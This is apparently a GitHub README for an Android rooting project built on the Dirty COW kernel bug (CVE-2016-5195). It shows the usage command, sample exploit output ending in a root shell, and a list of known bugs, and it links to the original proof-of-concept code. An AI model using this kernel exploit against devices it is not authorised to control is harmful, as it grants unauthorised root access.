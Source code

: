# DirtyCowAndroid
Repo For Working on Dirty Cow Based Android Root Method    
Currently Linux Only    
Youtube: https://www.youtube.com/watch?v=bzrRWfDOQcM  
    
Should Spawn a root shell on device  
Usage sudo make root  
Output:  
[*] mmap 0xb6f00000  
[*] exploit (patch)  
[*] currently 0xb6f00000=464c457f  
[*] madvise = 0xb6f00000 13708  
[*] madvise = 0 1048576  
[*] /proc/self/mem 0 1048576  
[*] exploited 0xb6f00000=464c457f  
adb shell /system/bin/run-as  
running as uid 2000  
uid 0  
root@ZTE-V811:/ #
  
##Bugs / Problems  
1)  
  System Will Hang If You Exec a command on spawned shell Temp Fix: Exit Back to Terminal and type  
  "adb shell"  
  "run-as"  
  Going "adb shell run-as" will produce the hang  
2) 
  Android 5 (Samsung Galaxy S4)  
  setresgid/setresuid failed  
  
3) 
    Incompatible with devices with system partitions made read-only by the _hardware_, such as the DigiLand DL718M and other supercheap       devices. 
   
Oringal PoC Code: https://github.com/timwr/CVE-2016-5195
